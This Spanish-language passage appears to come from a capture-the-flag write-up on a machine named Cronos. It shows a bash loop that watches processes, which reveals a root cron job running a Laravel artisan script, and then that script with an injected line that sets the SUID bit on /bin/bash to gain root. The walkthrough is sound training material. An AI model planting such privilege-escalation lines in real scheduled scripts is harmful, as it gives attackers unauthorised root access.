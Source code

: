 ```bash
while true; do
	new_process="$(ps -eo command)"
	diff <(echo "$old_process") <(echo "$new_process") | grep -vE "command|procmon|kworker"
	old_process="$new_process"
done
tput cnorm
www-data@cronos:/dev/shm$ 
```

Si lo ejecutamos vemos lo que nos interesa 

```bash
www-data@cronos:/dev/shm$ ./procmon.sh
> /usr/sbin/CRON -f
> /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
> php /var/www/laravel/artisan schedule:run
172,174d171
< /usr/sbin/CRON -f
< /bin/sh -c php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
< php /var/www/laravel/artisan schedule:run
```

Igual si no quieres hacer esto puedes usar <a href='https://github.com/DominicBreuker/pspy' color="yellow">pspy</a> 

Vamos abrirnos el archivo para indicarle la instrucción que queremos que ejecute en **PHP** que lo que queremos es que nos asigne el privilegio **SUID** ala **bash**

```bash
www-data@cronos:/dev/shm$ cat /var/www/laravel/artisan 
#!/usr/bin/env php
<?php
system("chmod u+s /bin/bash");
/*
|--------------------------------------------------------------------------
| Register The Auto Loader
|--------------------------------------------------------------------------
|
| Composer provides a convenient, automatically generated class loader
| for our application. We just need to utilize it! We'll require it
| into the script here so that we do not have to worry about the
| loading of any our classes "manually". Feels great to relax.
|
*/

require __DIR__.'/bootstrap/autoload.php';

$app = require_once __DIR__.'/bootstrap/app.php';

/*
|--------------------------------------------------------------------------
| Run The Artisan Application
|--------------------------------------------------------------------------
|
| When we run the console application, the current CLI command will be
| executed in this console and the response sent back to a terminal
| or another output device for the developers. Here goes nothing!
|
*/

$kernel = $app->make(Illuminate\Contracts\Console\Kernel::class);

$status = $kernel->handle(
    $input = new Symfony\Component\Console\Input\ArgvInput,
    new Symfony\Component\Console\Output\ConsoleOutput
);
```